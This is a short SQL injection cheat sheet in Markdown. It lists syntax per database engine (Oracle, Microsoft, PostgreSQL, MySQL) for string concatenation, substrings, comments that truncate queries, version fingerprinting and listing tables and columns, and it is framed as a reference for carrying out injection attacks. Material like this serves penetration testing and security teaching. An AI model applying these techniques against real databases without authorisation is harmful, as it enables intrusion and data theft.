 # SQL Injection Cheatsheet

> This SQL injection cheat sheet contains examples of useful syntax that you can use to perfrom a variety of tasks that often arise when performing SQL injection attacks.

# String Concatenation

> You can concatenate together multiple strings to make a single string.

**Oracle** :: 'foo'||'bar'                                          <br>
**Microsoft** :: 'foo'+'bar'                                        <br>
**PostgreSQL** :: 'foo'||'bar'                                      <br>
**MySQL** :: 'foo' 'bar' [Note the space between the two strings]   <br>
**MySQL** :: CONCAT('foo','bar')                                    <br>

# Substring

> You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.

**Oracle** :: SUBSTR('foobar', 4, 2)        <br>
**Microsoft** :: SUBSTRING('foobar', 4, 2)  <br>
**PostgreSQL** :: SUBSTRING('foobar', 4, 2) <br>
**MySQL** :: SUBSTRING('foobar', 4, 2)      <br>

# Comments

> You can use comments to truncate a query and remove the portion of the original query that follows your input.

**Oracle** :: --comment                                                                     <br>
**Microsoft** :: --comment or /✶comment✶/                                                   <br>
**PostgreSQL** :: --comment or /✶comment✶/                                                  <br>
**MySQL**	:: #comment or -- comment or /✶comment✶/ [Note the space after the double dash]   <br>

# Database version

> You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

**Oracle**  :: SELECT banner FROM v$version or SELECT version FROM v$instance   <br>
**Microsoft** :: SELECT @@version                                               <br>
**PostgreSQL** :: SELECT version()                                              <br>
**MySQL** :: SELECT @@version                                                   <br>

# Database contents

> You can list the tables that exist in the database, and the columns that those tables contain.

**Oracle** :: SELECT * FROM all_tables or SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'                                <br>
**Microsoft** :: SELECT * FROM information_schema.tables or SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   <br>
**PostgreSQL** :: SELECT * FROM information_schema.tables or SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'  <br>
**MySQL** :: SELECT * FROM information_schema.tables or SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'       <br>

